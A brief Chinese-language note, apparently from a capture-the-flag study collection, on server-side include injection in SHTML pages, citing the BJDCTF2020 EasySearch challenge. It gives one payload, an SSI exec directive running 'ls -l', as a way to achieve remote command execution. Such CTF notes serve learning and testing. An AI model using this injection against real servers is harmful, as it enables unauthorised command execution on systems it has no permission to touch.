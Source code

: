 参见 [[[BJDCTF2020]EasySearch]] 和 [服务器端内嵌](https://zh.wikipedia.org/zh-cn/%E6%9C%8D%E5%8A%A1%E5%99%A8%E7%AB%AF%E5%86%85%E5%B5%8C)
总之就是可以利用这个
```
<!--#exec cmd="ls -l" -->
```
来执行命令

#Web #HTTP #SHTML #RCE #Misc #shell 